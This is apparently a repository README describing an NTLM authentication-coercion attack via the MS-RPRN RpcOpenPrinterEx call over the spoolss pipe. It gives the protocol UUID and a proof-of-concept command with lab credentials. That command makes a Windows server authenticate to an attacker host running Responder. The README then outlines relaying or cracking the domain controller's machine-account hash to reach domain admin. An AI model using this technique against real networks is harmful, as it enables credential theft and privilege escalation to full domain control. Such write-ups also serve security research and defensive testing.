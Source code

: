 # MS-RPRN - Remote call to RpcOpenPrinterEx (opnum 69)

## Summary

+ **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\pipe\spoolss`

+ **Function name**: [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff)

+ **Function operation number**: `69`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\spoolss` and bind to the desired [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol (with uuid `12345678-1234-abcd-ef00-0123456789ab` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-RPRN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\spoolss` This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. We will then call the remote [`RpcOpenPrinterEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcOpenPrinterEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcOpenPrinterEx(
   [in, string, unique] STRING_HANDLE pPrinterName,
   [out] PRINTER_HANDLE* pHandle,
   [in, string, unique] wchar_t* pDatatype,
   [in] DEVMODE_CONTAINER* pDevModeContainer,
   [in] DWORD AccessRequired,
   [in] SPLCLIENT_CONTAINER* pClientInfo
 );
```

## References

+ Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1

+ Documentation of function `RpcOpenPrinterEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/0e81ce18-72b1-46c3-8584-a205393b04ff